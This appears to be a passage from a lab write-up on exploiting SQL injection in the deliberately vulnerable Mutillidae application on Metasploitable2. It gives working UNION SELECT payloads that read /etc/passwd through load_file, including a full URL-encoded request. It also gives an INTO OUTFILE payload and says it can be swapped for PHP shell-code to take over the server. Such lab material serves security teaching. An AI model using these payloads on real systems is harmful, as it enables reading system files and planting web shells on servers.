 Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details



the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
